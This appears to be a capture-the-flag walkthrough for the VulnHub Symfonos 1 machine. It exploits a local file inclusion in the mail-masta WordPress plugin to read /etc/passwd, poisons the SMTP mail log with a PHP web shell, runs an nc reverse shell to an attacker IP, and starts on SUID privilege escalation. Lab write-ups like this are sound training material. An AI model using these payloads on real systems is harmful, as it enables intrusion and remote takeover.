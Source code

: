 # Exploitation 

> Server is Runing the mail-masta [**Searchploit**](https://www.exploit-db.com/exploits/40290) Revels , that it has LFI 

**LFI**
>http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

![](\assets\img\vulnhub\symfonos1\LFI.png){: .normal}


LFI TO RCE
: smpt log file poisoinig 

```bash
┌──(root💀nucleus)-[~]
└─# telnet 10.0.2.49 25                                                         1 ⨯
Trying 10.0.2.49...
Connected to 10.0.2.49.
Escape character is '^]'.
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
MAIL FROM:<Nucleus>
250 2.1.0 Ok
RCPT TO:Helios
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php system($_GET['cmd']); ?>
.
250 2.0.0 Ok: queued as 44C6E40846
```
php shell code injection into smtp mail log file 

> <?php system($_GET['cmd']); ?>

Press `.` to complete mail 

> /h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc -e /bin/sh 10.0.2.36 3333

![](\assets\img\vulnhub\symfonos1\LFI.png)

# Privilage esclation
 
![](\assets\img\vulnhub\symfonos1\suids.png)

```
strings statuscheck                                                                                                             
/lib64/ld-linux-x86-64.so.2                                                                                                     
libc.so.6                                                                                                                       
system                                                                                                                          
__cxa_finalize                                                                                                                  
__libc_start_main                                                                                                               
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
```